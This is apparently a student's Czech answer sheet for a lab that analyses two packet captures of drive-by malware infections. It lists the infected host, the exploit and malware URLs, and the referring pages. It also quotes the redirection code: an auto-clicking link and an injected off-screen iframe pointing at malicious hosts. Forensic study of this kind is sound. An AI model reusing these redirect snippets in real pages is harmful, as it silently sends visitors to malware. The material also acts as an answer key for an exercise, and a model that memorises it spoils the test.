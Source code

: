 markdown sa lepsie pozera na githube: [https://github.com/melnicek/notes/blob/master/ukol1.md](https://github.com/melnicek/notes/blob/master/ukol1.md)

# Zadání první části – soubor uloha1.pcap

### 1. Jaká je IP adresa stanice, která byla infikována?

```
127.80.179.181
```

### 2. Jaký prohlížeč infikovaná stanice používala?

Internet Explorer 8.0

```
Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729)
```

### 3. Jaká je URL, ze které byl exploit stažen?

```
http://static.this-is-not-a-botnet.com/3h251q2c35
```

### 4. Jaká je URL webové stránky, ze které se stanice dostala na URL s exploitem?

```
http://akronkappas.com//d2a42e1f7d9a1021bd7d93af414c95c4.php?q=70a9b40eb73da11445c3a3609c8241d9
```

### 5. Jakým způsobem došlo k přesměrování na externí URL se škodlivým kódem?

```
<a id='myLink' href='http://static.this-is-not-a-botnet.com/3h251q2c35'>click</a><script>document.getElementById('myLink').click();</script>
```

# Zadání druhé části – soubor uloha2.pcap [?](https://itexamanswers.net/27-2-15-lab-investigating-a-malware-exploit-answers.html)

### 1. Která URL adresa (uveďte alespoň doménu) způsobila infekci stanice?

```
http://www.homeimprovement.com/remodeling-your-kitchen-cabinets.html
```

### 2. Jak se uživatel dostal na danou doménu?

```
http://www.bing.com/search?q=home+improvement+remodeling+your+kitchen&qs=n&sp=-1&pq=home+improvement+remodeling+your+kitchen&sc=0-40&sk=&cvid=194EC908DA65455B9E9A98285A33132B&first=7&FORM=PERE
```

### 3. Samotný malware je uložen na jiné (externí) URL adrese. Jaká je to adresa?

```
http://p27dokhpz2n7nvgr.1jw2lx.top/EE7E-AD39-7D8C-080C-18BF?iframe&_=1485557725652
```

### 4. Jakým způsobem došlo k přesměrování na externí URL se škodlivým kódem?

Script `http://retrotip.visionurbana.com.ve/dle_js.js` na adrese `http://www.homeimprovement.com/remodeling-your-kitchen-cabinets.html`

```
document.write('<div class="" style="position:absolute; width:383px; height:368px; left:17px; top:-858px;">  <div  style="" class=""><a>head</a><a class="head-menu-2"> </a><iframe src="http://tyu.benme.com/?q=zn_QMvXcJwDQDofGMvrESLtEMUbQA0KK2OH_76iyEoH9JHT1vrTUSkrttgWC&biw=Amaya.81lp85.406f4y5l9&oq=elTX_fUlL7ABPAuy2EyALQZnlY0IU1IQ8fj630PWwUWZ0pDRqx29UToBvdeW&yus=Amaya.110oz60.406a7e5q8&br_fl=4109&tuif=5364&ct=Amaya" width=290 height=257 ></ifr' +'ame> <a style=""></a></div><a class="" style="">temp</a></div>');
```
